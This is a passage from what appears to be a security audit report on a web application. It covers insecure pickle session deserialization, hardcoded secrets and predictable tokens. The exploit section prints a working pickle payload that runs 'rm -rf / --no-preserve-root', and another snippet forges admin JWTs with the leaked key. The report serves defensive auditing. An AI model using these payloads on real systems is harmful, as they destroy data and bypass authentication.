 #### Location Details:
- **Line 198:** Session data serialization with pickle
- **Line 265:** Session data deserialization

#### Exploit Code:
```python
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        return (os.system, ('rm -rf / --no-preserve-root',))

malicious_session = base64.b64encode(pickle.dumps(RCE())).decode()
# Send as session_id to achieve RCE
```

#### Impact:
- **Complete system compromise** via arbitrary code execution
- **Privilege escalation** to system level
- **Data exfiltration** and ransomware deployment
- **Persistent backdoor** installation

---

### 4. Hardcoded Secrets

**Vulnerability Type:** Hard-coded Credentials  
**Severity:** **HIGH**  
**CVSS 3.1 Score:** 7.5 (High)  
**CWE ID:** CWE-798 (Use of Hard-coded Credentials)  

#### Location Details:
- **Line 23:** `app.secret_key = 'SuperSecretKey123!'`
- **Line 32:** `JWT_SECRET = 'jwt-secret-2024'`

#### Exploitation:
```python
# Forge any JWT token
import jwt
forged_token = jwt.encode(
    {'user_id': 1, 'username': 'admin', 'role': 'admin'},
    'jwt-secret-2024',
    algorithm='HS256'
)
```

---

### 5. Predictable Token Generation

**Vulnerability Type:** Insufficient Entropy  
**Severity:** **HIGH**  
**CVSS 3.1 Score:** 8.2 (High)  
**CWE ID:** CWE-330 (Use of Insufficiently Random Values)  
